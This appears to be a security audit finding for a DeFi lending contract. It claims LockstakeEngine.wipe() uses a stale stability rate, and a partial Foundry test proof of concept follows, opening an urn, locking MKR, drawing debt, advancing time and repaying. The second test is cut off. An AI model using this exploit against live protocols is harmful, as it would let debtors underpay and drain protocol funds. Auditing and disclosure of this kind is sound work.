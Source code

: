 ```LockstakeEngine.wipe()``` does not use the most current stability rate, as a result, the user might repay less than he is supposed to and the protocol will lose funds. 


        deal(address(mkr), Bob, 100_000 * 10**18);             // 100_000 ether
        deal(address(ngt), Bob, 100_000 * 24_000 * 10**18);
        
        //printBalance(Bob, "Bob");
        //printBalance(address(engine), "engine");
        
        vm.startPrank(Bob);                // 1. open a urn
        address urn = engine.open(0);
        mkr.approve(address(engine), 100_000 * 10**18);
        engine.lock(urn, 2000 * 10**18, 0);
    
        engine.draw(urn, address(Bob), 20 ether);     
        vm.stopPrank();
        printBalance(Bob, "Bob");
        printBalance(address(urn), "urn");
        printBalance(address(engine), "engine"); 
    

        (, uint256 oldRate,,,) = vat.ilks(ilk);
        console2.log("oldRate: ", oldRate);
        vm.warp(block.timestamp + 100 days);
        dss.jug.drip(ilk);                             // comment/uncomment to simulate race condition
        (, uint256 newRate,,,) = vat.ilks(ilk);
        console2.log("newRate: ", newRate);


        console2.log("\n \n repay the debt with 10 ether of nat...");
        vm.startPrank(Bob);
        nst.approve(address(engine), 10 ether);  // after pay 10 ether, we still half more than half debt due to rate incrase
        engine.wipe(urn, 10 ether);              // it might use a stale rate to calcualte the debt to be deducted from art
        vm.stopPrank();

        printBalance(Bob, "Bob");
        printBalance(address(urn), "urn");
        printBalance(address(engine), "engine"); // where is mkr and lsmkr? 
    }




    function testTake1() public  {
        console2.log("jug", address(dss.jug));

        address Bob = address(123);
        address kpr = address(456);


        deal(address(mkr), Bob, 100_000 * 10**18);             // 100_000 ether
        deal(address(nst), Bob, 123_000 * 10**18); 
        deal(address(ngt), Bob, 100_000 * 24_000 * 10**18);
        
        //printBalance(Bob, "Bob");
        //printBalance(address(engine), "engine");
        
        vm.startPrank(Bob);                // 1. open a urn
        address urn = engine.open(0);
        mkr.approve(address(engine), 100_000 * 10**18);
        engine.lock(urn, 2000 * 10**18, 0);
```